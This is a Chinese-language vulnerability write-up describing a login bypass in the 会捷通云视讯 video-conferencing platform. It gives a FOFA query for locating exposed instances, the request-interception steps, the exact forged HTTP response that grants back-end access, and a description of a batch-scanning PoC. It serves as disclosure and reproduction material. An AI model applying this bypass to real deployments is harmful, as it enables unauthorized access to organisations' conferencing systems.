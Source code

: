 # 会捷通云视讯 登录绕过漏洞

## 漏洞描述

会捷通云视讯存在登录绕过漏洞，通过修改返回包内容即可实现获取后台权限


##  fofa语法

body="/him/api/rest/v1.0/node/role"

##  复现
登录界面如下
![image](https://github.com/abcdeeef/Edison_sec/assets/87749200/e9697efb-5f44-4c99-bc43-5f8133eb1b96)

输入任意的账号密码抓包
![image](https://github.com/abcdeeef/Edison_sec/assets/87749200/e2cd70d4-4e4b-49d5-a680-ebda3304b1f6)

选择"Response this request"并放包
![image](https://github.com/abcdeeef/Edison_sec/assets/87749200/64f3ee5a-e60a-46ca-b052-f8750a656c1c)

修改返回包为如下后放包则成功绕过登录

```plain
HTTP/1.1 200 
Server: Hsengine/1.4.1
Date: Mon, 17 May 2021 16:13:43 GMT
Content-Type: application/json;charset=UTF-8
Connection: close
X-Frame-Options: SAMEORIGIN
X-Content-Type-Options: nosniff
X-XSS-Protection: 1; mode=block
Accept-Ranges: bytes
Vary: Accept-Charset, Accept-Encoding, Accept-Language, Accept
Content-Length: 61

{"token":null,"result":null}
```
![image](https://github.com/abcdeeef/Edison_sec/assets/87749200/bd43c912-5a28-4c66-b4e3-e1a8233531fd)

# poc
该poc可实现两个功能
  -u 查询单个url是否存在该漏洞
  -f 批量查询多个url是否存在该漏洞
  ![image](https://github.com/abcdeeef/Edison_sec/assets/87749200/68167d32-7c14-45ee-8139-b373ba259e84)
![image](https://github.com/abcdeeef/Edison_sec/assets/87749200/553d1be8-540b-40e5-9d3a-e1de61d24ec0)

